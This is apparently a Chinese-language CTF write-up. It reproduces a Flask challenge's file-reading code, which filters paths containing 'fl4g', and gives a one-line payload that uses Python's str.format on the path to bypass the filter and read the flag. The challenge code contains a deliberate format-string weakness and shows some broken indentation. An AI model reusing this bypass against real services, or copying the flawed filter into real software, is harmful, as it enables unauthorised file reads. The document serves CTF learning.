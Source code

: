 ```
    return 'Use /query?path= to query what you want. And what you want is at /fl4g/flag'

if __name__ == '__main__':
    app.run(port=8890)
```

File.py:

```
import os
import os.path

class File:
    "The file class"
    def __init__(self, path):
        self.path = path
        self.name = os.path.basename(self.path)
        self.dir = os.path.dirname(self.path)
        def listDir(self):
            return os.listdir(os.path.dirname(self.dir))
```

Readfile.py

```
from file import File

class FileReader:
    def __init__(self, file):
        self.file = file
    def __str__(self):
        if 'fl4g' in self.file.path:
            return 'nonono,it is a secret!!!'
        else:
            output = 'The file you read is:\n'
            filepath = (self.file.dir + '/{file.name}').format(file=self.file)
            output += filepath
            output += '\n\nThe content is:\n'
            try:
                f = open(filepath,'r')
                content = f.read()
                f.close()
            except:
                content = 'can\'t read'
            output += content
            output += '\n\nOther files under the same folder:\n'
            output += '\n'.join(self.file.listDir())
    return output.replace('\n','')
```

代码审计得到，这三个脚本读取文件并过滤文件名`fl4g`。解决方法为利用format格式化绕过`fl4g`的名称检测

Payload：

```
/fl4{file.name[3]}/flag
```

获得flag

![](https://raw.githubusercontent.com/Heart-1ess/Heart_1ess-s-CTF-Note/master/assets/import23.png)



